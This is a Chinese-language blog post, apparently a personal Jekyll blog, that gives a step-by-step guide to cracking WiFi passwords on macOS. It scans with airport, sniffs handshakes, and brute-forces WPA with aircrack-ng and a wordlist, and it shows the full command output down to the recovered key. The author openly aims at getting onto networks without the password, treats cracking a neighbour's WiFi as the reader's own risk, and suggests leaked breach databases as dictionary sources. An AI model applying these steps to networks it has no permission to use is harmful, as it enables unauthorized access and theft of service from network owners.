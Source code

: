 ```yaml
---
layout: post
title: 使用 Aircrack-ng 破解 WiFi 密码
category: Document
tags: wifi crack
date: 2021-03-26 16:03:39
published: true
summary: 到一个地方有 WiFi 但不知道密码，如何获得 WiFi 密码呢？PS：去它的万能钥匙
image: pirates.svg
comment: true
---
```


刚入手 Mac 没多久，但基于 FreeBCD 的 Mac 系统兼容 Unix 命令加上 brew 工具的加持也兼容绝大部分的 linux 命令。好用的用户交互 + 对码农超友好的 Terminal，很完美！所以就爱不释手了，经常随包携带到处码代码（也就码农的命吧）。这么一得瑟就出问题了，外出无网啊，这不，发现个工具居然很轻松的就得到了大部分的 WiFi 密码（可能会不道德啊，建议大家对公共 WiFi 使用，对邻居家偷网的后果自负）

闲话少说，言归正传！

## 保护好自己

进入暗网的第一课就是：“藏好了，不要暴露自己”，有点「黑暗森林」的意思。这适用于网络中的法外之徒——黑客，所以在网络中想干点暗黑事，必须学会隐藏真身，用分身、傀儡去干活，还要学会为他们擦屁股，毕竟养一个分身或傀儡也不容易，丢了坏可惜的。

网络世界中 Mac 地址（网卡号）相当于你现实中的身份证，ip 地址相当于手机号。做攻防的时候这两个东东必须要隐藏好，不能被发现。隐藏的方法有很多，常见的有……（扯多了，咱也不干啥违法的事）。

话说最简单的方式是用虚拟机，虚拟机跟炼制分身一样，起不到保护身份的目的，但别人攻击你的时候，额，最坏的情况也就是把分身干躺，死一个分身而已可以接受的。

炼制分身的法器有 Virtual Box, VMWare，Hyper-V 等，在各自系统上安装法器，找到分身镜像（Ubuntu, Kali, Arch, bulabula）即可炼制，我喜欢小的，mini 的，老子就想用几个命令而已装个 Ubuntu 干鸟啊，所以我喜欢装 alpine，小巧，嗖的一下就完事（关键硬盘小啊，128G，😭）

## 扫描 scan

首先要知道想破解哪个 WiFi，要获得这个 WiFi 的一些信息才能精准的嗅探到需要破解时用到的数据。

MAC 系统有个很好用的 WiFi（802.11） 接口工具：airport，使用 `airport -s` 即可扫描所有可见的无线网络：

```bash
$ airport -s
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                 xxxxxx_xxxxxxxx xx:xx:xx:xx:xx:xx -36  5       Y  CN WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
                             xxx xx:xx:xx:xx:xx:xx -51  1       Y  CN WPA2(802.1x/AES/AES)
                          shuiwo xx:xx:xx:xx:xx:xx -57  1       Y  CN WPA2(PSK/AES/AES)
```

SSID: WiFi 名称
BSSID: 站点 MAC 地址
RSSI: 信号轻度，绝对值越小越强
CHANNEL: 信道
SECURITY: 加密方式

## 嗅探 sniff

使用 `airport sniff [CHANNEL]` 即可对 WiFi 信道抓包，之后会生成 .cap 文件，再之后可用 aircrack.ng 等工具进行暴力破解。

```bash
$ sudo airport sniff 1
```

嗅探时间看情况而定，最好嗅探的时候有人连接过目标 WiFi。

生成了 airportSniffXXXXXXX.cap 文件

## 密码字典

密码字典是加速暴力破解密码时的不二法门，去哪搞到好的密码字典，github 上搜去吧（另外之前某些大公司泄的漏数据库里面可是有海量的明文密码的）。这个[项目](https://github.com/TheKingOfDuck/fuzzDicts.git)，里面的字典大大地好用！

这里用的字典文件是：pwddct.txt

## 破解工具登场

有许多好的工具都可用来暴力破解，牛逼一点的人会自己写不用别人写的，尤其有网络通信的工具。

这里我们用 aircrack-ng，用法如下`aircrack-ng -w pwddct.txt airportSniffXXXXXXX.cap·文件`，该命令首先会解析通讯包，然后从其中找出有握手的包的序号给它让它用字典暴力破解就行了。

```bash
$ aircrack-ng -w pwddct.txt airportSniffXXXXXXX.cap

Reading packets, please wait...
Opening airportSniffwghS1w.cap
[0KRead 187668 packets.

   #  BSSID              ESSID                     Encryption

1033  xx:xx:xx:xx:xx:xx                            WPA (0 handshake)
1034  xx:xx:xx:xx:xx:xx                            WEP (3 IVs)
1035  xx:xx:xx:xx:xx:xx                            WPA (0 handshake)
1036  xx:xx:xx:xx:xx:xx  shuiwo                    WPA (1 handshake)
1037  xx:xx:xx:xx:xx:xx  xxxx xxxxxx               WPA (0 handshake)
1038  xx:xx:xx:xx:xx:xx  xxxxxxxxx-xxxx            Unknown
1039  xx:xx:xx:xx:xx:xx                            WPA (0 handshake)
1040  xx:xx:xx:xx:xx:xx  xx??x%??x!?!x??Sxx?x?'x   Unknown
1041  xx:xx:xx:xx:xx:xx  shuiwo                    WEP (1 IVs)

Index number of target network ? 1036

                              Aircrack-ng 1.6

      [00:00:21] 96329/96807 keys tested (4490.17 k/s)

      Time left: 0 seconds                                      99.51%

                           KEY FOUND! [ 12345678 ]


      Master Key     : xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx
                       xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx

      Transient Key  : xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx
                       xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx
                       xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx
                       xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx

      EAPOL HMAC     : xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx
```

还好，密码简单很快就破解了！

TODO:

- Linux 的扫描和嗅探有时间再补吧
